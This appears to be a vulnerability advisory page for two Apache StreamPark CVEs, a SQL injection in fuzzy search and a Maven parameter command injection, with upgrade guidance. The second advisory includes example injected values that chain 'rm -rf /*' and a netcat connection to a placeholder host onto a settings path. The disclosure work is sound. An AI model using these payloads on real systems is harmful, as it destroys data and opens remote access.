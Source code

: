 
## Authenticated system users could trigger SQL injection vulnerability ## { #CVE-2023-30867 }

CVE-2023-30867 [\[CVE json\]](./CVE-2023-30867.cve.json) [\[OSV json\]](./CVE-2023-30867.osv.json)



_Last updated: 2023-12-15T12:13:59.544Z_

### Affected

* Apache StreamPark (incubating) from 2.0.0 before 2.1.2


### Description

<div><span style="background-color: var(--wht);">In the Streampark platform, when users log in to the system and use certain features, some pages provide a name-based fuzzy search, such as job names, role names, etc. The sql syntax :select * from table where jobName like '%jobName%'. However, the jobName field may receive illegal parameters, leading to SQL injection. This could potentially result in information leakage.</span><div><span style="background-color: var(--wht);"><br></span></div><br><div>Mitigation:</div><div><br></div><span style="background-color: rgb(255, 255, 255);">Users are recommended to upgrade to version 2.1.2, which fixes the issue.</span><br><br></div><br><p></p>

### References
* https://lists.apache.org/thread/bhdzh6hnh04yyf3g203bbyvxryd720o2


## Authenticated system users could trigger remote command execution ## { #CVE-2023-49898 }

CVE-2023-49898 [\[CVE json\]](./CVE-2023-49898.cve.json) [\[OSV json\]](./CVE-2023-49898.osv.json)



_Last updated: 2023-12-15T12:13:22.953Z_

### Affected

* Apache StreamPark (incubating) from 2.0.0 before 2.1.2


### Description

<div>In streampark, there is a project module that integrates Maven's compilation capability. However, there is no check on the compilation parameters of Maven. allowing attackers to insert commands for remote command execution, The prerequisite for a successful attack is that the user needs to log in to the streampark system and have system-level permissions. Generally, only users of that system have the authorization to log in, and users would not manually input a dangerous operation command. Therefore, the risk level of this vulnerability is very low.<br><br><div>Mitigation:<br><br></div>all users&nbsp;<span style="background-color: var(--wht);">should upgrade to 2.1.2</span><div><br></div><br><div>Example:<br><br><div><p></p><div>##You can customize the splicing method according to the compilation situation of the project, mvn compilation results use &amp;&amp;, compilation failure use "||" or "&amp;&amp;":<br><br><span style="background-color: var(--wht);">/usr/share/java/maven-3/conf/settings.xml || rm -rf /*</span><br></div><p></p></div></div><div><div>/usr/share/java/maven-3/conf/settings.xml &amp;&amp; nohup nc x.x.x.x 8899 &amp;</div><br></div></div><p></p>
